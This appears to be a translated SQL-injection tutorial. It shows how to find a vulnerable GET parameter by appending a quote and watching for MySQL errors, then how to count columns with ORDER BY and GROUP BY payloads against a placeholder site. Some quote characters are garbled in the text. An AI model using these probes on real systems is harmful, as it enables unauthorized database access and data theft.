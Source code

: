One of the main things where we have to look to detect if a page is vulnerable to sql injection is in its parameters, let's imagine the following:

We find a common and current page which uses many parameters for the GET method (remember that the GET method is when the page sends the data using the URL), so we have something like this:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1`

In this example we have 3 parameters, which are:

```
id=1
id2=1
id3=1
```

Now, to detect if the page is vulnerable, one of the simplest things is to use a simple 'at the end of each parameter to see if it generates an error in the database.

So we have the following:

We add a `` '' at the end of the first parameter, but it does not generate any error:

`http://www.paginaparaejemplo.com/algo.php?id=1'&id2=1&id3=1`

We add a `` '' at the end of the second parameter, but it does not generate any error:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1'&id3=1`

We add a `` '' to the end of the last parameter, but here it returns an error:

`http://www.paginaparaejemplo.com/algo.php?id=1&id2=1&id3=1'`

The page shows us a legend like this:

`You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax`

Now that we have the vulnerable parameter, we move on to the following.

### Detect the number of columns

We already have the vulnerable parameter, now we have to identify the number of columns used by the page, for this we have the following commands:

`order by` y `group by`

Here we have to test the number of columns, here is an example of how to use the order by and the group by:

```
1' ORDER BY 1 --+	
1' ORDER BY 2 --+	
1' ORDER BY 3 --+	
1' ORDER BY 4 --+	
etc...
```
```
1' GROUP BY 1--+	
1' GROUP BY 2--+	
1' GROUP BY 3--+	
1' GROUP BY 4--+	
etc...
```
